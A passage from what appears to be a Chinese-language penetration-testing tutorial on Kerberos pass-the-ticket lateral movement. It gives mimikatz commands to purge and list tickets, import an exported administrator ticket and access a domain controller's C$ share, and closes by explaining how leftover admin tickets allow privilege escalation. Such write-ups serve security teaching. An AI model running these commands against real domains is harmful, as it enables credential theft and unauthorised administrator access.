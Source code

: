 ### 4.6.2. 清空票据

为了严谨，这里还是需要将所有现阶段的票据清空。

```
mimikatz kerberos::purge 清除凭证
mimikatz kerberos::list 查看当前凭证
```

![image-20230717140701526](assets/GvOTEmodMNCQYnc.png)

### 4.6.3. 导入票据并测试

这里你可以看是成功导入票据了，并且也测试成功了，不过需要注意的时候，由于导出的历史票据很多，如果是真实情况下，那么会更过，所以需要一条一条测试才可以，我也是找到一个administrator信息导入成功的。

好像还有时间限制哦，我测试完，一会就无法登陆了。

```
mimikatz kerberos::ptt C:\gx\[0;1b1c3]-0-0-40a50000-administrator@cifs-win-rli2sl6fgbd.yuto.com.kirbi  导入票据
shell dir \\WIN-RLI2SL6FGBD\c$  测试
```

![image-20230717141046746](assets/zYeGMyIhnLVKDt8.png)

## 4.7. 总结

像pth、smb、wmi、ps利用这些都需要使用到smb或者wmi的协议是正常状态下，也就是上面介绍到的pth与ptk都需要相应的协议正常，而且如果这些协议不正常才会去使用到票据的验证。

关于票据整体的思路就是，我获取到一台域内主机后，而域内主机在前期配置过程中的时候，域控管理员正常都会登陆过域控账号密码，而在此后域内主机就会留下该票据，而我们进行操作的时候，就是将这些遗留下的票据调用起来，让票据去验证，只要管理员没有定期去修改域控的账号密码，那么票据就能够验证成功，我们也就相当于成功借用票据，将一个普通用户未造成一个管理员。

